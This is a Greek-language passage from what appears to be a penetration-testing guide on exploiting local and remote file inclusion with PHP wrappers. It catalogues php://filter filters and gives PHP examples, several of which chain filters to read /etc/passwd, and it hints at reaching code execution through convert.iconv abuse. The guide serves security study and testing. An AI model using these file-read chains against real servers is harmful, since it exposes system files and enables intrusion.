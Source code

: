 ## LFI / RFI χρησιμοποιώντας PHP wrappers & πρωτόκολλα

### php://filter

Οι φίλτροι PHP επιτρέπουν την εκτέλεση βασικών **λειτουργιών τροποποίησης στα δεδομένα** πριν διαβαστούν ή γραφούν. Υπάρχουν 5 κατηγορίες φίλτρων:

* [String Filters](https://www.php.net/manual/en/filters.string.php):
* `string.rot13`
* `string.toupper`
* `string.tolower`
* `string.strip_tags`: Αφαιρεί τις ετικέτες από τα δεδομένα (όλα όσα βρίσκονται μεταξύ των χαρακτήρων "<" και ">")
* Σημειώστε ότι αυτό το φίλτρο έχει εξαφανιστεί από τις σύγχρονες εκδόσεις του PHP
* [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
* `convert.base64-encode`
* `convert.base64-decode`
* `convert.quoted-printable-encode`
* `convert.quoted-printable-decode`
* `convert.iconv.*` : Μετατρέπει σε διαφορετική κωδικοποίηση(`convert.iconv.<input_enc>.<output_enc>`). Για να αποκτήσετε τη **λίστα όλων των κωδικοποιήσεων** που υποστηρίζονται, εκτελέστε στην κονσόλα: `iconv -l`

{% hint style="warning" %}
Καταχρώντας το φίλτρο μετατροπής `convert.iconv.*` μπορείτε να **δημιουργήσετε αυθαίρετο κείμενο**, το οποίο θα μπορούσε να είναι χρήσιμο για να γράψετε αυθαίρετο κείμενο ή να κάνετε μια λειτουργία όπως η συμπερίληψη αυθαίρετου κειμένου. Για περισσότερες πληροφορίες, ελέγξτε [**LFI2RCE μέσω φίλτρων php**](lfi2rce-via-php-filters.md).
{% endhint %}

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
* `zlib.deflate`: Συμπιέζει το περιεχόμενο (χρήσιμο αν εξάγετε πολλές πληροφορίες)
* `zlib.inflate`: Αποσυμπιέζει τα δεδομένα
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
* `mcrypt.*` : Καταργημένο
* `mdecrypt.*` : Καταργημένο
* Άλλοι Φίλτροι
* Εκτελώντας στο php `var_dump(stream_get_filters());` μπορείτε να βρείτε μερικούς **αναπάντεχους φίλτρους**:
* `consumed`
* `dechunk`: αναστρέφει την κωδικοποίηση HTTP chunked
* `convert.*`
```php
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
```